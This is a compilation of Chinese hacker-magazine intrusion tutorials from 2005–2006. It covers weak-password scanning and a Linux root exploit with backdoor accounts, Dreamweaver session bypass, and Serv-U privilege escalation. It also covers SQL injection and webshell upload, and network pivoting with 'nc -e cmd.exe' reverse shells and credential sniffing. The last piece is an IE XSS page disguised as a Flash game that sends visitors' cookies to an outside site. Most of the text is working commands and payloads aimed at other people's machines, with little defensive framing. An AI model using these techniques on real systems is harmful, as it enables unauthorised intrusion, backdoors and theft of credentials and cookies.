软件的中部位置有端口设置，我们添加如下端口22、23、512、513、514。程序上方有IP段落设置，既然想得到大量Linux肉鸡，范围不妨设置大点，211.0.0.1_211.255.255.255（脚本小子：记得在自己比较稳定的3389肉鸡上扫描，自己的机器可舍不得啊，太费电了吧？）。

经过好几天的等待，终于扫描结束了。其实Ssport非常方便，中途你觉得差不多的时候，可以保存部分结果进行下一步动作。让这个工具继续扫描时，它不但从原先的结束点开始，还会问你是把扫描的结果剪除后继续扫描，还是不删除原先的结果扫描，很体贴的。将结果导出为一个文本文件，我们需要简单处理。如图2所示。

选择替换把22、23、512、513、514全部处理掉，就会得到一个干净的IP地址列表。下面就需要我们的第二个工具HSCAN出场了，程序的界面如图3所示。

我们依次选Menu菜单->Parameter子菜单->Hostlist，把我们刚才整理的IP地址文本导入，还要记得把Ping host before scan选项给去掉，这样可以多得到些信息，不过花费的时间更长。

扫描范围选择好了，再来选择扫描模块，Modules在这里我们选择Check ftp weak accounts、Check pop3 weak accounts和Check imap weak accounts三个模块，开始扫描吧！最终HSCAN会给我们一份扫描报告。如图4所示。

看清楚了吗？我们仔细看这份报告。对于发现了弱口令，且关于FTP、POP、IMAP版本有WU-FTP、VSFTP、PROFTP和Linux、Unix字样的肯定就是Linux系统。61.197.254.149这个IP就有弱口令，它的FTP版本是WU-2.6.2.5，肯定是一个Linux系统。


图2


图3


图4

www.hacker.com.cn
2006精华本 下册

## EXPLOIT ATTACK
> 栏目编辑 脚本小子：scriptboy@hacker.com.cn

现在我们要想办法登录上它的系统，这时候用我们的第3个工具Putty。如果你还保存有IP地址的原始数据，就是刚刚用SSPORT扫描后还带有端口信息的那个文本，我们就可以查到61.197.254.149这个IP开放的端口信息，它的22端口是开放的。这正好方便我们，打开PUTTY，填写IP 61.197.254.149，选择SSH协议，点击打开，过一会儿会弹出如图5所示的界面。


我们只要点YES就会出现登录提示，按照扫描出来的弱口令点登录就连接到对方主机上了。如图6所示。


输入命令Uname -a查看内核版本，一般版本都不高，给大家推荐一个好的本地溢出代码，地址如下：
http://downloads.securityfocus.com/vulnerabilities/exploits/ptrace-kmod.c。我们先在命令提示下输入Cat >1.c，然后选择复制这段代码，粘贴到肉鸡上。如图7所示。


然后用Ctrl+z键这段代码就被保存在肉鸡上了。下面我们编译它，输入命令 gcc -o 1 1.c，如图8所示。


执行这个命令，哈哈，看到了吗？所有的ID为0，提示符变成了#号，我们已经是管理员了！如图9所示。


加个自己的用户吧：

```
mkdir /home/.network
echo network:500:500::/home/.network:/bin/bash>>/etc/passwd
echo network::::::>>/etc/shadow
passwd network
```

加个管理员以后方便自己：

```
echo xctc::::::>>/etc/shadow
echo xctc:0:0:/home/.network:/bin/bash>>/etc/passwd
passwd xctc
```

如图10所示。


好了，入侵告一段落。

相信很多菜鸟都很渴望看到Linux的桌面。那么我们就给它安装VNC吧，因为它是跨平台的，而且客户端访问可以在浏览器里面进行。安装方法很简单：

```
tar zxvf vnc-3.3.3r1_x86_linux_2.0.tgz
cd vnc_x86_linux_2.0
cp *vnc* /usr/local/bin/
mkdir /usr/local/vnc
cp -r classes/ /usr/local/vnc/
```

设置Vnc Server的访问密码

```
vncpasswd
```

启动Vnc Server

```
vncserver
```

最新版本的VNC安装方式就更简单了，大家可以到这里去下载http://www.realvnc.com。

安装好后有时候不能看到漂亮的Linux桌面，需要我们执行下面命令的任何一个，Startkde或者Gnome-session，这两命令一个是启动到KDE桌面，一个是启动到GNOME桌面。先给一个截图诱惑大家一下吧！这可是在Windows下控制Linux哦！如图11所示。


另外，大家可以到以下站点找linux的本地和远程溢出代码

- www.netric.org
- http://www.packetstormsecurity.org/
- www.cnhonker.com

这篇文章只是希望能指导一下和我一样的菜鸟们，高手请勿见笑。欢迎加我的QQ互相探讨交流Linux的入侵经验：33550。谢谢观赏。

www.hacker.com.cn 黑客防线 2006 精华奉献本 下册


## EXPLOIT ATTACK 黑客防线 2006 精华奉献本 下册

适合读者：入侵爱好者、网页编写人员
前置知识：Dreamweaver基本使用方法

脚本小子: Dreamweaver是一个非常常见的网页制作工具,网络上40%左右的页面都是它制作的,以往我们总是关注页面本身的安全和服务器的安全,今天我们给大家送上一份另类的新年大餐,换一个眼光去发掘网络上40%的网页都可能出现的共同漏洞!

### 2005新年大礼
### Dreamweaver
### 引发网络危机
文 / 122d


本来和Dreamweaver是没什么瓜葛的,一来个人没有做网页的爱好,二来缺乏艺术细胞,所以对Dreamweaver的印象只是道听途说。直到进了院信息部分管网页制作,才发现做网页并不是想像中那样简单,一行一行去写代码还不累死?只好开始玩Dreamweaver,Internet上40%的网页都是它做的,按理说应该没有什么安全方面的漏洞了吧?大致看了一下,SQL的字符过滤,用户认证过程等都做的非常好,毕竟是大公司出的东东,确确实实不一般。不过在我辛勤工作的过程中,终于发现了Dreamweaver的个别安全问题。好,废话不说,开工!

Dreamweaver中的用户登录验证是基于用户名、密码的认证,我们看一下认证代码(省去了部分无用代码及注释):

```asp
<login.asp>
' 服务器获取用户提交参数，连接数据库，验证用户名和密码是否正确
<%@LANGUAGE="VBSCRIPT"%>
<!--#include file="Connections/mmbnews.asp"-->
' mmbnews.asp是数据库连接文件，这里指向数据库
<%
MM_LoginAction = Request.ServerVariables("URL")
If Request.QueryString<>"" Then MM_LoginAction = MM_LoginAction + "?" + Server.HTMLEncode(Request.QueryString)
MM_valUsername=CStr(Request.Form("textfield"))
If MM_valUsername <> "" Then
  MM_fldUserAuthorization=""              ' 数据库认证值
  MM_redirectLoginSuccess="logged.asp"
  ' 登陆成功后转向的默认页
  MM_redirectLoginFailed="login.asp"
  ' 登陆失败后转向的默认页
  MM_flag="ADODB.Recordset"
  set MM_rsUser = Server.CreateObject(MM_flag)
  MM_rsUser.ActiveConnection = MM_mmbnews_STRING
  MM_rsUser.Source = "SELECT user, Psd"
  If MM_fldUserAuthorization <> "" Then MM_rsUser.Source = MM_rsUser.Source & "," & MM_fldUserAuthorization
  MM_rsUser.Source = MM_rsUser.Source & " FROM member WHERE user='" & Replace(MM_valUsername,"'","''") &"' AND Psd='" & Replace(Request.Form("textfield2"),"'","''") & "'"
  ' 字符过滤，防止SQL注入
  MM_rsUser.CursorType = 0
  MM_rsUser.CursorLocation = 2
  MM_rsUser.LockType = 3
  MM_rsUser.Open
  If Not MM_rsUser.EOF Or Not MM_rsUser.BOF Then
    Session("MM_Username") = MM_valUsername
```

```asp
' 这里是成功登陆后Dreamweaver给IE中留下的Session记录
If (MM_fldUserAuthorization <> "") Then
  Session("MM_fldUserAuthorization") = CStr(MM_rsUser.Fields.Item(MM_fldUserAuthorization).Value)
' 验证成功，设置Session("MM_fldUserAuthorization")的值
Else
  Session("MM_UserAuthorization") = ""
' 验证失败，Session("MM_fldUserAuthorization")置空
End If
if CStr(Request.QueryString("accessdenied")) <> "" And false Then
  MM_redirectLoginSuccess = Request.QueryString("accessdenied")
End If
MM_rsUser.Close
Response.Redirect(MM_redirectLoginSuccess)
' 验证成功，转向登录成功后的默认页
End If
MM_rsUser.Close
Response.Redirect(MM_redirectLoginFailed)码
' 验证失败，转向登录失败后的默认页
End If
%>
......
' 用户在C端(Client)登录页面提交登录数据，这里是用户名和密码
<form action="<%=MM_LoginAction%>" method="POST" name="form1" target="_self">
  <p class="style4">会员管理登录</p>
  <p class="style4">&nbsp;</p>
  <p class="style4"><span class="style2 style3">管理员</span><span class="style3">账户:
  <input name="textfield" type="text" size="10" maxlength="20">
  </span></p>
  <p class="style2 style3">管理员密码:
  <input name="textfield2" type="password" size="10" maxlength="20">
  </p>
  <p class="style2 style3">
  <input type="submit" name="Submit" value="提交">
  &nbsp;&nbsp;
  <input type="reset" name="Submit2" value="重置">
  </p>
</form>
......
```

SQL语言很简单,相信都能看懂,可以看出基本上都是Dreamweaver内置的变量,也就是说只要是Dreamweaver写的东东,变量名就是这些,那知道这些有什么用呢?等会儿就知道了。

再来认识一下Dreamweaver中的参数(特别注意Session值)。Dreamweaver里没有验证码工具,需手工添加代码,所以这也算是个小小的安全隐患。再往下看就是登录成功后可访问的转向页面(redirectLoginSuccess="logined.asp"),Dreamweaver中有一项"限制对页的访问"。有两种模式,基于用户名、密码的和基于用户名、密码和等级的认证,代码如下:

```asp
<logined.asp>
......
'基于用户名、密码的认证:
<%
MM_authorizedUsers=""
'置MM_authorizedUsers为空,防止非法用户在提交的参数中增设MM_authorizedUsers值
MM_authFailedURL="urlLogin.asp" '验证失败后转向的默认页
MM_grantAccess=false
'注意这儿,以下是Dreamweaver对用户是否已成功登陆进行对比认证
If Session("MM_Username") <> "" Then
  If (true Or CStr(Session("MM_UserAuthorization"))
= "") Or _(InStr(1, MM_authorizedUsers, Session(
("MM_UserAuthorization"))>=1) Then
    MM_grantAccess = true
  End If
End If
'以下为页面跳转
If Not MM_grantAccess Then
  MM_qsChar = "?"
  If (InStr(1, MM_authFailedURL, "?") >= 1) Then
MM_qsChar = "&"
  MM_referrer = Request.ServerVariables("URL")
  if (Len(Request.QueryString()) > 0) Then MM_referrer
= MM_referrer &
"?" & Request.QueryString()
  MM_authFailedURL = MM_authFailedURL & MM_qsChar & "accessdenied=" &
Server.URLEncode(MM_referrer)
  Response.Redirect(MM_authFailedURL)
End If
%>
......
```

主要的Session及其他验证值:

```asp
Session("MM_Username")
Session("MM_UserAuthorization")
MM_grantAccess = true
MM_authorizedUsers
```

可以看出,Dreamweaver在此验证中没有再进行用户名、密码的对比认证。这可以理解,但是Dreamweaver写出的Session名的相同性奠定了漏洞的基础。这里展示了Dreamweaver中所有认证的变量名、参数等内容,尤其是Session名的统一,有几个用Dreamweaver的人会去更改Session的名称? 并且我们可以看出Dreamweaver代码的另一个致命弱点:没有进行Session的提交认证,也就是说,Dreamweaver不会验证这个Session值是否由对应的上一个登录页面生成,而Dreamweaver对用户登陆与否的简单认证(只对)最终让我们能够达到我们想要的目标!
系统认证流程已做过注释,而且Dreamweaver的变量名也很好理解,相信都看得很清楚了,以下是利用方法,这里的前提是Dreamweaver中的Session值名未做改变。过程如下
已有某站abc.com,下有登录页Login.asp,成功登录后转向可以看到敏感信息的OK.asp(没有页面访问限制,验证通过则显示),否则转向Fail.asp。现在我们要在没有用户名和密码的情况下得到OK.asp中的敏感信息。
首先在地址栏打入http://www.abc.com/ok.asp,返回Login.asp,未通过验证,然后用Dreamweaver新建一个ASP登陆页Hack.asp,更改设置通过的条件,使Session值为通过验证的默认值。通过Internet(或装IIS在本机)访问Hack.asp,目的是让ASP执行并在IE中留下Session值为Dreamweaver里默认的名和值,再在地址栏中打入http://www.abc.com/ok.asp——验证通过,得到敏感信息!
如果Session值改过,只要改得简单好猜,一样容易入侵,接下来的操作就不说了,那是大家发挥的空间。
关于本漏洞的预防,其实很简单,只要在使用Dreamweaver时别偷懒,记得将Session值设为不易猜解的名字,就可以防止此漏洞的发生。不过要记得经它验证才能访问的页面也一定要修改为相应的Session名。各位使用Dreamweaver工作的朋友可要小心哦!

适合读者:入侵爱好者、网络管理员
前置知识:Serv-U FTP基本使用方法

### 漏洞大户Serv-U 再爆0.0版 本地权限提升漏洞

文/图 Lotos

2004年8月,Serv-U FTP服务器被发现存在本地权限提升漏洞,当时从Serv-U 3.0.0.20到最新的5.1.0.0版本都存在这个漏洞。因为所有Serv-U都存在默认本地管理员登录账户密码,这个账户只能在本地端口中连接,因此本地攻击者可以连接Serv-U并建立拥有执行权限的FTP用户。入侵者在连接FTP服务器后执行"SITE EXEC"命令,程序就会以SYSTEM权限执行,Serv-U FTP所有版本默认的本地管理端口都是43958,默认管理员:LocalAdministrator,默认密码是 #|@$ak#.lk;0@P,这是集成在Serv-U内部的,可以以Guest权限来进行连接,对Serv-U进行管理。发稿时Serv-U FTP 6.0刚刚出世,顺手测试是否还存在这个漏洞。
先来看看工具:

```
D:\>servu
  serv-u3.*-6.0所有版本的权限提升漏洞利用程序
    by HaK_BaN QQ:616222
  Bug.Center.Team:www.bnso.net
  Example: servu.exe "nc.exe -l -p 99 -e cmd.exe"
```

www.hacker.com.cn
2006 精华奉献本 下册

> 栏目编辑 ) 脚本小子 ) scriptboy@hacker.com.cn


## EXPLOIT ATTACK 黑客X档案

>< 栏目编辑 > 脚本小子 > scriptboy@hacker.com.cn >

可以看到工具的用法很简单，即“servu.exe 你要执行的命令”就可以了。我在本地计算机上用海阳2005测试了一下，如图1所示。


地球人都知道这条命令添加了一个用户名是Lotos，密码为空的用户。运行后检验一下是否添加成功，如图2所示。

OK，成功了！现在我们只需将这个用户再添加到管理员组就可以为所欲为了。

如果你是管理员，那么一定要问怎样才能修补这个漏洞？既然6.0已经出来了，大家都就换成6.0吧。安装完毕之后，打开Serv_U administrator，找到“Set/Change Password”选项，单击之后，弹出修改密码的窗口，如图3所示。


Old password 可以保持空白，不用输入上面的那一大串默认密码，新密码当然你想改成什么就改成什么了，修改之后我们再测试一下：


```
<221 Serv-U FTP Server v6.0 for WinSock ready...
>USER LocalAdministrator
<331 User name okay, need password.
>PASS #1@$ak#.lk;0@P
<530 Not logged in. //看到这一行了吧？所以下面的命令并没有执行。
<421 Maximum session time exceeded - closing.
>SITE MAINTENANCE
<500 Invalid command: "SITE"
>USER haxor
<331 User name okay, need password.
>PASS white0r
<230 User logged in, proceed.
>SYST
<215 UNIX Type: L8
>PORT 127,0,0,1,12,34
<200 PORT Command successful.
>LIST
<150 Opening ASCII mode data connection for /bin/ls.
<226 Transfer complete.
>SITE EXEC net user lotos /add
<200 SITE command successful.
>SITE EXEC net localgroup Administrators lotos /add
<200 SITE command successful.
>QUIT
<221 Goodbye.
```

看，多么NB的漏洞就这样被我们防护住了，你知道吗？

脚本小子：2004年是极不平凡的一年，各种漏洞相继被发现，各种入侵技巧也应运而生，原本固若金汤的服务器，在新的漏洞面前也变得弱不禁风：牛人们发现的Serv-u溢出程序为提升系统权限大开方便之门，NBSI2把SQL注入发挥得淋漓尽致，PHP注入也日趋成熟，某位怪才发现的上传漏洞在很多脚本系统中也都大放异彩，像DV、DZ等等大名鼎鼎的论坛也是漏洞屡报，数家著名公司被敲诈，黑客组织也是明争暗斗，虚拟主机也饱受旁注困扰……攻与防就像矛与盾，从某种意义上来说，攻就是防，防就是攻！

适合读者：入侵爱好者、网络管理员
前置知识：DOS基本命令

### 记一次艰苦的入侵

文/图 勇哥儿

现如今的网络，一个小小的漏洞就可以攻克一台机器，甚至占领整个内部网络。本文以一台机器为突破口，然后利用内网其他机器做跳板，最后控制目标机器。如果说利用一台机器上的某个站点来控制其他站点叫直接旁注的话，我想把利用同一网内最弱的一台机器来达到控制最强机器的方式叫间接旁注，比渗透入侵我觉得好听点，其实方法很多牛人早用烂了，现且丑且。


#### 通过SQL注入漏洞，反向连接进入数据库机器

利用NBSI2扫描发现存在SQL注入漏洞，而且还是SA权限，如图1所示。

利用NBSI2的DOS执行命令功能，输入“ipconfig -

黑客X档案 www.hacker.com.cn 2005精华本 下册


## EXPLOIT ATTACK

》栏目编辑）脚本小子> scriptsbay@hacker.com.cn

all”发现网址与Web服务器不同，但是从网络上看是在同一网段内。执行“netstat -an”查看数据库服务器所开的端口，发现很多1433端口都是Web服务器连接。利用NBSI2的目录浏览功能，没发现机器上存在PcAnyWhere和Serv-U，利用它们可以远程控制，提升权限，或猜测口令。再利用“net start”命令没发现如瑞星和KV等杀毒软件或防火墙的服务，然后利用HSCAN1.2和NMAP3.7扫描数据库服务器的外网IP，竟然没扫到一个开放的端口！笔者估计机器外有硬件防火墙。

该如何对付防火墙呢？笔者想到了反向连接，在本地开了一个TFTP，输入命令：

```
tftp -i ip get nc.exe
```

很幸运的上传了一个NC上去，利用同样的方法也上传了一个MT.EXE上去。MT.EXE是一个网络管理方面的软件，依照yy3的说法，也就是“七拼八凑来的，纯粹是图个方便。”可是这个方便真的是太方便了，仅40KB的一个程序，但是集合了近百种命令于一身。最后再用如下命令来实现文件的下载：

```
tftp -i <ip> get <FILENAME>
```

在本机利用NC监听66端口，命令如下：

```
nc -l -p 66
```

远程机器上执行：

```
nc -e cmd.exe <IP> 66
```

不一会儿一个Shell就出来了，还是在这里面运行命令爽啊，在NBSI2里憋死了，有时在NBSI2里执行命令时会出现“意外数据”，还要被迫在浏览器里执行。

利用net view 命令查看共有3台机器，如图2所示


再输入命令：

```
NET VIEW \\机器名
```

得到的内容为空，看来是没共享目录啊！

### 嗅探显奇功

利用“MT.EXE -SYSINFO”命令显示出数据库服务器的系统信息、网卡信息、配置信息和所安装的软件信息，如图3所示（只截了系统信息的图）。

原来是Windows 2003，怪不得用“MT-FINDPASS”命令没显出密码来，再利用如下命令下载一个看Windows 2003密码的软件

```
.mt -netget http://www.***.com/findpass2003.exe(mt -netget <url> <filename to saved>  ----Download from http/ftp.)
```

运行findpass2003.exe后没有在内存中找到密码，看来得想办法让管理员登录了！哈哈。运行命令：


```
.mt -netget http://www.***.com/hacan120.rar hscan.rar
```

下载一个HSCAN1.2进去，利用同样的方法又下载进去一个UNRAR.EXE，然后执行命令：

```
unrar.exe x hscan.rar
```

这样就把HSCAN.RAR解压到HSCAN目录当中了，可以利用HACSN1.2版本的DOS命令行扫描内网，命令如下：

```
hscan -h www.target.com -all -ping
```

扫完其余两台以后没发现任何弱口令，但发现它们在网内中开了很多端口，如21，80，135，139，3389等。


> HSCAN扫描完成后会生成报告，自动用浏览器打开，应该利用“MT -PSLIST”和“MT -PSKILL”把这个浏览器关掉。

既然开了3389，能不能利用端口重定向把它定向到数据库这台机器上呢？经过实践利用“mt -redirect <TargetIP> <TargetPort> <ListenPorts>”和利用PIPE都没有成功。定向后，用“NETSTAT -AN”命令看端口重定向成功，但是在外网还是没法访问。

那么数据库这台机器能不能利用带反弹型的图形木马来控制屏幕呢？实践证明利用神气儿和灰鸽子都失败了！看来只能装DOS版的后门了。试试APR欺骗如何？因为在DOS下没法安装图形界面的WINPCAP，所以ARPSINFFER.EXE无法运行（后来自己做了一个DOS版的）！

这台机器上除了操作系统、数据库、补丁外什么都没装，够干净，难道真的就没有办法了吗？这时笔者想到了一位女黑客编写的木马，既有反向连接功能，又有监听功能，是什么呢？聪明的朋友，你猜到了吗？她就是大名鼎鼎、如雷贯耳、威名远播、无人不知的WOLF！赶紧上传一个运行WOLF.SETUP

笔者选择的是反向连接所取的IP放在一个HTTP空间的文件中，制作好后，同样利用命令下载到数据库服务器当中，运行后，它会自动向你的HTTP空间中存放的文件中去取反向连接的IP和端口，这时你可以在本机上用命令来慢慢等待：

```
nc -l -p port
```

一会以后，反向连接成功了，输密码进入吧！如图4所示。

www.hacker.com.cn 2006 精华奉献本 下册

栏目编辑 > 脚本小子 > scriptboy@hacker.com.cn


## MT EXE -PSKILL

我就不信管理员不来！在WOLLF环境下执行EXIT退出（但是监听程序还是在运行的，如果执行QUIT后，就不监听了）。经过一段时间，再连上去看看有没有抓到有价值的信息，先停止监听，输入命令：

```
SNIFF-STOP
```

再利用WOLLF带的GET命令把监听的文件下载下来。哈，收获可真不小，如图5所示。


监听到固若金汤的Web服务器的一个80端口的用户名和密码，登录上去一看，原来是一个会员的！还监听到一台机器的21端口的用户名和密码了，还有这台机器的25端口的一个MAIL，查看其IP后发现它就是上面利用“NET .VIEW”看到的3台机器中的一台，就叫它邮件Web服务器吧。在外网扫描还发现它开了80端口，看来这台机器有两个作用，一是作为邮件服务器，另一个作用就是开了80端口，上面放了网站内容，而主要网站的内容则在那台固若金汤的Web服务器上（在外网扫描它，只开了80端口，真够狠！那台邮件Web服务器对外网也仅开了21，25，80，110 4个端口）。先别忙登录啊，可不要忘了那个Findpass2003啊！如图6所示。


利用命令看看这个用户是什么权限

```
net user username
```

这个用户是管理员啊！密码设置得很变态，字母数字特殊字符都有，管理员一般都有一个习惯，所有机器上的管理员的密码都相同，后来验证，果然如此！

> 脚本小子：这个习惯可不好啊，想当初我做管理员的时候，为了图省事也这样做过……

得到用户名和密码后，试图在数据库服务器上对外两台机器执行命令：

```
net use \\IP\admin$ password /user:username
```

均没有成功！

### 邮件Web服务器做跳板，曲径黄龙

用FTP登录邮件Web服务器，还是Serv-U FTP-Server v2.5k，能不能溢出呢？登录成功后，上传一个海洋2005和NC.EXE上去，再次反向连接，如图7所示。


- 1. 利用IPC连接（在这台机器上对Web服务器竟然能成功！哈哈）：
`net use \\Web服务器\admin$ password /user:username`
其中username，password为连接远程主机时提供的用户名与密码。
- 2. 拷贝NC到Web服务器上
`copy x:\nc.exe \\Web服务器\admin$`
- 3. 显示Web服务器当前的时间：
`net time \\远程主机名`
- 4. 假设Web服务器当前的时间为09:12，让Web服务器在09:14分自动NC反向连接偶机器的99端口，如图8所示。


```
at \\Web服务器 09:14 nc.exe -e cmd.exe 218.***.***.165 99
```

两分钟过去，终于成功了，进到那台固若金汤的Web服务器里面！成功后界面如图9所示。


其中在反弹的Shell中利用XYZCMD.EXE这个工具进行二次登录时没有成功，也就是Shell中再登Shell时没有成功。到此完全控制此服务器！

本文图中网址已做处理，如有雷同，纯属巧合，希望本方法对大家有所帮助，不管是攻还是防。

## 黑客X档案 EXPLOIT ATTACK

> 栏目编辑）脚本小子）scriptboy@hacker.com.cn

适合读者：入侵爱好者、网络管理员
前置知识：SQL注入基本方法

### 轻松入侵某知名认证机构总部

文/图 痛

公司今年准备要做ISO9001质量管理体系认证，请来了某知名认证中心的一位区域经理为公司全体员工做培训。课上，老师强调ISO9001认证关键在于“过程方法”，即组织内诸过程的系统的运用，连同这些过程的识别和相互作用及其管理。课后，发放了该认证中心的一些资料，资料上有认证中心总部的网址。培训了一天，头都大了。到认证中心总部的网站上去浏览一下，于是便有了这次简单而又心寒的“过程方法”。
CP认证（隐去真实名称）是中国最大的认证机构之一，1979年首次将“认证”概念引入中国，是经过国家认可和授权，专业从事第三方认证的权威机构，隶属于信息产业部，总部下属机构多达20多家！我输入总部网站地址，很快找到一处注入点，执行http://www.cp.com/News/news_details.asp?New_ID=1063，返回如下信息：
```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server]字符串 '1063' 之前有未闭合的引号。
/News/news_details.asp, 行 40
```
提交几句判断语句后，发现没什么利用价值，PUBLIC权限，不支持多句查询。一支烟后，在网站上没发现可利用的东西，但却把后台的路径猜出来了。在www.webhosting.info中查询到服务器上除了cp.com外，还有一个cp.info的站。进入cp.info站点，让我很惊讶，多处存在注入点。执行http://www.cp.info/news/news_detail.asp?w_id=825和0<>(select user_name())，返回如下信息：
```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'GDDXWS' 转换为数据类型为 int 的列时发生语法错误。
/news/news_detail.asp, 行 10
```
得到当前数据库用户名。执行http://www.cp.info/news/news_detail.asp?w_id=825 和 0<>(select db_name())，返回如下信息：
```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'WuSuo' 转换为数据类型为 int 的列时发生语法错误。
/news/news_detail.asp, 行 10
```
得到当前数据库名。执行http://www.cp.info/news/news_detail.asp?w_id=825 和 0<>(select @@version)，返回如下信息：
```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'Microsoft SQL Server 2000 - 8.00.194 (Intel X86) Aug 6 2000 00:57:48 Copyright (c) 1988-2000 Microsoft Corporation Standard Edition on Windows NT 5.0 (Build 2195: Service Pack 4)' 转换为数据类型为 int 的列时发生语法错误。
/news/news_detail.asp, 行 10
```

得到系统及数据库信息。猜解到后台路径为http://www.cp.info/login/login.asp。用NBSI2跑出管理员账号和密码，登录后台，发现没什么可利用的，如图1所示。
想想，cp.com与cp.info在同一主机上，关键是直属同一部门，刚才在nbsi2上跑到的cp.info的管理员账号和密码……你想到了什么？对，社会工程学。在之前猜出的cp.com的后台，用cp.info的管理账号和密码登录，BINGO！成功登录，如图2所示。
在后台转了一圈，发现在“资料下载管理”里，有可用的上传选项，程序没有对上传的文件类型做任何限制，如图3所示。
上传一个ASP木马，成功！如图4所示。
成功获得WebShell，入侵到此告一段落。如此庞大的机构，直属信息产业部，网站的安全设计却不甚一击，让人深思……


www.hacker.com.cn

黑客X档案 2006精华季版本 下册

适合读者：入侵爱好者、脚本爱好者、网管、站长
前置知识：HTML代码阅读能力

### 论坛精华：MSIE DHTML 跨站脚本漏洞

文/图 llikz

微软公司在去年发布了MSIE DHTML Edit控件跨站脚本漏洞，但是圈内一直没有公布出好用的EXP，害得一帮新手叫“苦不送”，别急，我这就为大家送来了大餐！

#### 受影响系统

- Microsoft Internet Explorer 6.0
- Microsoft Windows XP Professional SP1
- Microsoft Windows XP Professional
- Microsoft Windows XP Home SP1
- Microsoft Windows XP Home
- Microsoft Windows ME
- Microsoft Windows 98 SE
- Microsoft Windows 98
- Microsoft Windows 2000

#### 漏洞描述

Microsoft Internet Explorer DHTML edit控件不正确过滤部分数据，远程攻击者可以利用这个漏洞进行跨站脚本攻击，获得敏感信息。DHTML编辑控件存在一个安全问题可被父窗口访问，包括Script函数，攻击者使用execScript直接注入Javascript到控件，当目标用户打开恶意链接时，会导致恶意脚本代码执行，泄露敏感信息。
看来只能影响到IE 6.0版本，并且对Windows XP SP2没有作用，不过没有给XP打SP2补丁的用户不在少数，这个漏洞的利用价值还是蛮大的。

由于我使用的是Windows XP SP1正好存在这个漏洞，我们就先来测试一下吧，在本地建立如下内容的HTML页面

```html
<html>
<head>
<title>测试</title>
</head>
<body onload="setTimeout('x.DOM.body.innerHTML=\'<b>正在装载，请稍后 +++++++++++++++</b>\');setTimeout('main()',1000)">
<object
  id="x"
  classid="clsid:2D360201-FFF5-11d1-8D03-00A0C959BC0A"
  width="800"
  height="600"
  align="middle"
>
```

```html
<PARAM NAME="ActivateApplets" VALUE="1">
<PARAM NAME="ActivateActiveXControls" VALUE="1">
</object>
<SCRIPT>
function shellscript()
{
window.name="poorchild";
open("http://www.hacker.com.cn/newbbs/announcements.asp?action=showone&boardid=0","poorchild");
}
function main()
{
x.DOM.Script.execScript(shellscript.toString());
x.DOM.Script.setTimeout("shellscript()");
alert('等等+++++++++++++++++++++++++++++++++');
x.DOM.Script.execScript(alert(document.cookie));
}
</SCRIPT>
</body>
</html>
```

用IE浏览器打开，如果你的系统存在这个漏洞，看看出现了什么，如图1所示。


呵呵，弹出了我在黑防论坛上的Cookie信息。不过这个页面利用起来很不方便，并且成功率不高，如果没等到DHTML控件加载完毕就点击确定，是不会弹出任何Cookie信息的。


## EXPLOIT ATTACK

> 栏目编辑 | 脚本小子 | scriptboy@hacker.com.cn

没等到页面加载完毕就点击弹出的第一个“确定”，攻击一定会失败，看来还是不足。我们来对这个页面进行一下补充和修改吧，使得它成为一个成功率高的偷取 Cookie 信息的网页，好了，我们现在开始动手。

为了增加加载时间我们先将 `setTimeout('main()',1000)` 中的参数改大一些，就设成 10000 吧，也就是 10 秒，够长了。虽然页面显示着正在加载，但状态栏中却显示着“完毕”，我们来修改状态栏的文字，加入如下的函数：

```javascript
function clock() {
  var title = " 正在装载，请稍后++++++++++++++++++";
  status = title;
}
```

为了尽可能的诱使浏览者去打开这个页面，我们把它改名成 `.swf` 格式的文件，即把此页面伪装成一个 Flash 文件。在页面中加入：

```html
<object classid="clsid:D27CDB6E-AE6D-11CF-96B8-444553540000" id="obj1" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0" border="0" width="800" height="600">
<param name="movie" value="http://www.istacey.net/project/exorcist/icon/promo3.swf">
<param name="quality" value="High">
<embed src="http://www.istacey.net/project/exorcist/icon/promo3.swf" pluginspage="http://www.macromedia.com/go/getflashplayer" type="application/x-shockwave-flash" name="obj1" width="489" height="76" quality="High"></object>
```

同时隐藏 DHTML 控件，即将 DHTML 控件的 width、height 属性设置成 0。为了将 Cookie 发送，我们添加如下脚本：

```javascript
x.DOM.Script.execScript("window.open('http://www.njrb.com.cn/comment/comment.php3?fdRealName=zhang&fdEmail=zhang@1.com&fdArticleId=&fdTitle=&fdLink=&func=add&sl=%B7%A2%B1%ED%C6%C0%C2%DB&fdComments='+document.cookie)");
```

这是为了测试方便，我将浏览者的 Cookie 信息发送到了网上的一个发表评论的地方了。最终的测试页面是：

```html
<html>
<head>
<title>测试</title>
</head>
<body onload="setTimeout('x.DOM.body.innerHTML=\'<b>正在装载，请稍后++++++++++++++++</b>\');clock();setTimeout('main()',10000)">
<object
id="x"
classid="clsid:2D360201-FFF5-11d1-8D03-00A0C959BC0A"
width="0"
height="0"
align="middle"
>
<PARAM NAME="ActivateApplets" VALUE="1">
<PARAM NAME="ActivateActiveXControls" VALUE="1">
</object>
<SCRIPT>
function clock() {
var title=" 正在装载，请稍后++++++++++++++++++";
}
function shellscript()
{
window.name="poorchild";
open("http://www.hacker.com.cn/newbbs/announcements.asp?action=showone&boardid=0","poorchild");
}
function main()
{
x.DOM.Script.execScript(shellscript.toString());
x.DOM.Script.setTimeout("shellscript()");
alert("游戏名称：神秘祭坛\n");
alert("测试通过者拥有着超人的观察力！\n");
alert("全世界只有10个人可以全部找出！\n");
alert("相信你就是这10个人中的一员\n");
alert("祝你好运+++++++++++++++++++++++\n");
alert("务必在找到后不同点击确定！！\n");
//x.DOM.Script.execScript(alert(document.cookie));
x.DOM.Script.execScript("window.open('http://www.njrb.com.cn/comment/comment.php3?fdRealName=zhang&fdEmail=zhang@1.com&fdArticleId=&fdTitle=&fdLink=&func=add&sl=%B7%A2%B1%ED%C6%C0%C2%DB&fdComments='+document.cookie)");
}
</SCRIPT>
<object classid="clsid:D27CDB6E-AE6D-11CF-96B8-444553540000" id="obj1" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0" border="0" width="800" height="600">
